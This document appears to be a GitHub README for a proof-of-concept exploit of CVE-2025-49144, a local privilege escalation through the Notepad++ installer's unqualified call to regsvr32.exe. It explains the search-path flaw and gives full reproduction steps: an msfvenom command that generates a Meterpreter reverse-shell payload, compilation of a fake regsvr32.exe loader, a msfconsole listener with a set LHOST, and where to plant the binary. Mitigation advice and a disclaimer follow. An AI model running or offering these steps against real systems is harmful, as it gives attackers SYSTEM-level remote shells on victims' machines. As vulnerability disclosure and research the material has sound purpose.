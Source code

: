 # CVE-2025-49144_PoC

![PoC Flow](misc/image.png)

📌 **CVE-2025-49144** is a high-severity local privilege escalation vulnerability found in the Notepad++ v8.8.1 and prior version installers. This vulnerability stems from uncontrolled executable search path behavior during installation, allowing a local attacker to gain SYSTEM-level privileges by placing malicious executables in the same directory as the installer.

---
⚙️ **How the CVE works – Step-by-Step**:

🧱 1. What went wrong in the installer?

The Notepad++ installer (before v8.8.2) calls regsvr32.exe to register some components — but it does this without giving the full path (like C:\Windows\System32\regsvr32.exe).

Instead, it just runs:
```bash
regsvr32.exe some_dll
```

📂 2. Windows search path behavior:
When an executable is launched without a full path, Windows uses a specific search order to find the file:

   1. The folder from which the application was launched (e.g., Downloads)

   2. The system folder (System32)

   3. The Windows folder

   4. Current working directory

   5. Paths in PATH environment variable

So, if a fake regsvr32.exe is placed in the same folder as the installer (e.g., Downloads), Windows will use it before the real one.

💣 3. Exploitation:

    - Attacker places a malicious regsvr32.exe in the same folder as the legitimate Notepad++ installer (e.g., the victim's Downloads folder).
    
    - Victim runs the installer (thinking it’s safe).
    
    - Installer calls regsvr32.exe, but ends up executing the malicious one from the same folder — with SYSTEM privileges (because installers typically request admin permissions).
    
    - The attacker's payload is now running as NT AUTHORITY\SYSTEM.


---

⚙️ **Steps to Reproduce**:
1. Get shell code:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your-ip> LPORT=4444 -f c > shellcode.txt
```
2. Download the file "regsvr32_loader.c" and edit it.
3. Paste entire shellcode from shellcode.txt in the mentioned comment.
4. Compile to regsvr32.exe:
```bash
x86_64-w64-mingw32-gcc regsvr32_loader.c -o regsvr32.exe -mwindows
```
5. Deploy a meterpreter listner:
``` bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.9
set LPORT 4444
run
```
6. Download a vulnerable version of Notepad++ i.e. prior to 8.8.1 as 8.8.1 is now auto-updated.For PoC I have used [Notepad++ v8.6.8](https://github.com/notepad-plus-plus/notepad-plus-plus/releases/download/v8.6.8/npp.8.6.8.Installer.x64.exe)
7. Move the file "regsvr32.exe" into the windows system in the same folder of the notepad++ installer, probably in the Downloads folder.
8. Complete the Installation of the Notepad++ installer.

Note: This is a PoC thus tested with Windows defender and real time protection disabled.

---

✅ **Mitigation**

Users and administrators should:

   - Upgrade to Notepad++ v8.8.2 or later
    
   - Restrict software installation to trusted admins
    
   - Use AppLocker, WDAC, or Software Restriction Policies (SRP) to:
     - Block execution from user-writeable folders (e.g., Downloads)
     - Prevent execution of untrusted binaries like regsvr32.exe from unauthorized paths
     - Enforce code signing for executables


Security teams should regularly audit install paths, monitor write permissions, and observe behavior during installer execution to reduce attack surface.

---

## 🏷️ License
MIT License — Free for educational, research, and defensive purposes only.

---

## 🤝 Contributing
Pull Requests welcome — improve detection, add features, or suggest fixes.

---

## ⚠️ Disclaimer
This PoC is **for educational and research purposes only**. Use it at your own risk. The author is not responsible for any misuse or damage caused."

